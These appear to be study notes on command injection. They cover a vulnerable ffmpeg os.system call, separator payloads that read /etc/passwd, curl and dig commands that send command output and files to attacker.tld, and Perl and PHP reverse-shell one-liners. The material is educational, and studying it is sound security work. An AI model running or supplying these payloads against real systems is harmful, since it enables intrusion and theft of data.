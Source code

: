 # what is command injection?
- in command injection , a web application generates Bash commands, including data from a Clint, a malicious user data custom that modify the normal operation of the web application . in a short rod, unsafe user-supplied data to a system shell , The severity is commonly consider as critical issue.
- The Flow something like this
	- ![[p1.png]]
	- #### But why do web application need to interact with shell? there are many scenarios
		- Converting an image
		- Converting an videos
	    - Code example, the video_name comes from user input
        - ```os.system("/bin/ffmpeg -i {} -c:a copy -c:v vp9 -r 30 "/files/user/{}/videos".format(video_name, session.get('user_id')))```
		- Converting an external web service
		- calling a binary
# Detection phase
- the detection phase is about fuzz the suspicious input, there are some command separators, a useful can be found here
```shell
; cat /etc/passwd  
&& cat /etc/passwd  
| cat /etc/passwd  
|| cat /etc/passwd  
`cat /etc/passwd`  
$(cat /etc/passwd)  
(cat,/etc/passwd)  
cat$IFS/etc/passwd  
cat $(HOME:0:1)etc$(HOME:0:1)passwd
```
# out of band Technique
- Out-of-band technique in command injection involves the attacker's ability to **send** data outside the application's normal communication channels. This can be done through **DNS requests, HTTP requests, or other means**. The attacker can then use this channel to receive data from the exploited system, such as the output of a command executed through the command injection vulnerability. This technique can be useful when the application does not return the output of the injected command, or when the output is not easily accessible by the attacker.
# two real world example
- #### Hacked apple
	- ##### [in write up](https://samcurry.net/hacking-apple#vuln4)
# Data Exfiltration
- ## There are two types of Command Injection:
	- Normal
	- ##### Blind
		- In the normal mode, the data can be grabbed easily. However, in the blind mode, Out of Band technique should be used:
			- ##### HTTP data exfiltration
				- `curl https://attacker.tld -d "$(id)" # sending out the result of a command    
				- `curl https://attacker.tld --data-binary @/etc/passwd # sending out a file `
			- ##### DNS data Exfiltration
				- `dig a +short $(whoami).icollab.info`
				- `# in the server -> 29-May-2022 10:57:43.096 queries: info: client @0x7f47e8099f00 74.125.181.8#36381 (yasho.icollab.info): query: yash o.icollab.info IN A -E(0)DC (54.37.175.117) [ECS 91.134.231.0/24/0]`
# Reverse Shell
    
- HTTP is a stateless protocol, in the Command Injection, attackers execute commands on a non-interactive shell.
    - An interactive shell can be achieved through 2 ways:
        - Spawning a shell and binding it on a port in the target machine, connecting to it directly (nowadays is impossible, why?)
        - Using a reverse shell forcing the target machine to connect back to the attacking machine
    - Procedure:
	    - Attacker's machine listens on a port
		- Victim's machine connects to the port
		- Victim spawns a shell
		- Attacker will have the shell
    - Perl code:
        - perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
    - PHP code:
        - php -r '$sock=fsockopen("IP",PORT);exec("sh <&3 >&3 2>&3");'
# Tool
- like [[sqlmap]]